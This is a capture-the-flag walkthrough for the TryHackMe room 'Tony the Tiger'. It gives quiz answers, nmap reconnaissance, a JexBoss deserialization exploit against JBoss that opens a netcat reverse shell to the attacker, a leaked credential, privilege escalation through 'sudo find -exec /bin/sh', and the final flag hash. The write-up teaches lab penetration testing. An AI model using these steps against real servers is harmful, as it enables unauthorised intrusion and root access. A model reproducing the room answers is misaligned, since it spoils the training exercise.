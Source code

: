 # [Tony the Tiger](https://tryhackme.com/room/tonythetiger)

## Learn how to use a Java Serialisation attack in this boot-to-root

# Support Material

### What is a great IRL example of an "Object"?

1. **Answer**: `lamp`

**Explanation:** In object-oriented programming, an object is an instance of a class that contains both data (attributes) and methods (functions). A lamp is a perfect real-world analogy because it has properties (color, size, wattage) and behaviors (turn on, turn off, dim).

---

### What is the acronym of a possible type of attack resulting from a "serialisation" attack?

1. **Answer:** `dos`

**Explanation:** Serialization attacks can lead to Denial of Service (DoS) attacks. When malicious serialized objects are deserialized, they can consume excessive system resources, crash applications, or cause infinite loops, effectively denying service to legitimate users.

---

### What lower-level format does data within "Objects" get converted into?

1. **Answer:** `byte stream`

**Explanation:** During serialization, objects are converted into a sequence of bytes (byte stream) that can be stored in files, transmitted over networks, or stored in databases. This process allows objects to be reconstructed later through deserialization.

---

# Reconnaissance

## Your first reaction to being presented with an instance should be information gathering.

### What service is running on port "8080"

1. Perform a service version scan using nmap
   - **Answer:** `Apache Tomcat/Coyote JSP engine 1.1`

```bash
nmap -sV IP
```

![SCREEN01](https://github.com/user-attachments/assets/01355fb5-ece0-41b8-b50f-e4b12bae76f3)

---

### What is the name of the front-end application running on "8080"?

1. Navigate to the web application in your browser `http://IP:8080/`
   - **Answer:** `JBoss`

![SCREEN02](https://github.com/user-attachments/assets/833f507e-6f93-4384-a4bf-fb764c743afc)

---

# Find Tony's Flag!

## Tony has started a totally unbiased blog about taste-testing various cereals! He'd love for you to have a read...

### This flag will have the formatting of "THM{}"

1. Navigate to `http://IP/`, and read through the blog posts to understand the context
   - In the `http://IP/posts/my-first-post/` the post mentions: `any photos I post must have a deeper meaning`. This is a hint that images contain hidden information
   - Download the image file from `http://IP/posts/frosted-flakes/`, and extract hidden data from it using strings

```bash
strings be2sOV9.jpg
```

![SCREEN03](https://github.com/user-attachments/assets/8ee94db0-9e79-4ef1-a346-8aded53a97d9)

---

# Find User JBoss' flag!

### This flag has the formatting of "THM{}"

1. Set up a netcat listener for reverse shell. Clone, prepare and run the JexBoss exploitation tool. Then access the compromised system and locate the flag

```bash
nc -lvnp 4444
```

```bash
git clone https://github.com/joaomatosf/jexboss.git
cd jexboss/
pip install -r requires.txt
python jexboss.py -host http://10.10.111.229:8080
# First question: Answer `No`
# Second question: Answer `Yes`
# Provide your attacker IP address, and the port number
```

```bash
ls -la /home/jboss
cat /home/jboss/.jboss.txt
```

![SCREEN04](https://github.com/user-attachments/assets/ca7bfc18-b7f6-45a7-b6d6-7b3d80cb1e65)

---

# Escalation!

### The final flag does not have the formatting of "THM{}"

_We will, we will Rock You..._

1. Stabilize the shell and gather credentials
   - credentials are: `jboss:likeaboss`

```bash
cat /home/jboss/note
python -c 'import pty; pty.spawn("/bin/bash")'
su jboss
```

2. Enumerate sudo privileges, and exploit sudo find privilege using [GTFOBins](https://gtfobins.github.io/gtfobins/find/) to get encoded root flag
   - Hash is: `QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==`

```bash
sudo -l
sudo find . -exec /bin/sh \; -quit
cat /root/root.txt
```

![SCREEN05](https://github.com/user-attachments/assets/41ec7783-9fb1-45c6-b8ff-db9d34f9fdb8)

3. Navigate to [CyberChef](https://gchq.github.io/CyberChef/), and use "From Base64" operation to decode the hash. Crack decoded hash in [CrackStation](https://crackstation.net/)

![SCREEN06](https://github.com/user-attachments/assets/a32427d2-ceab-43e2-8351-79ffb7317eb7)

